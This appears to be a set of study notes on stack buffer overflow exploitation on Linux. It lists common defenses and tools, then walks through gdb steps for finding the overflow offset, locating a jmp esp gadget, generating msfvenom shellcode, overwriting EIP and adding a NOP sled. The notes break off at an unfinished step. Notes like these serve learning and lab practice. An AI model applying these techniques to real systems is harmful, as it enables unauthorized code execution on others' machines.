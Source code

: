 # Buffer Overflow Defenses 
```
Non executable (NX) stack
Address Space Layout Randomization (ASLR)
Data Execution Prevention (DEP)
Stack Canaries (security cookies in windows)
Position Independent Executable (PIE)
```

# Technical Help
```
Utilizing tools such as:
  IDA, GHIDRA
  GDB, MONA, IMMUNITY
  BASH, PYTHON
```
# Linux 
# passing args to a executable (bash)
./func $(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa") (see if it can be passed into it as a argument)
./func <<<$(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa") (passes into it when it runs)
gdb {executable} (debugger)
run (use run to run function)
info functions (shows the functions in that executable)
pdisass (color coded breakdown)
shell (gives us a shell)

# steps to buffer overflow
1) gdb ./[file] run this to get a debug stream
2) use run <<<$(./buff.py) to figure out where the overflow starts (https://wiremask.eu/)
3) get clean gdb:
         env - gdb ./[file]
         show env
         unset env COLUMNS
         unset env LINES
         run (manually overflow)
         info proc map (shows part of heap and all of the stack)
         grab first address after heap (start address)
         GRAB END ADDRESS from [stack]
         adjust script with # find /b [start], [end], 0xff, 0xe4 (looks for jmp esv)
         run it in clean gdb and get the first 4 results
4) use  msfvenom --list payloads to see all payloads\
5) msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python (run this)
6) replace eip with first "\xXX" and add nop = "\x90" * 15-20 (choose a number)
7) add in code from msfvenom
8) add code you get from msfvenom and then run the script in gdb
9) then run the file against the script
10) 
 env - gdb ./func
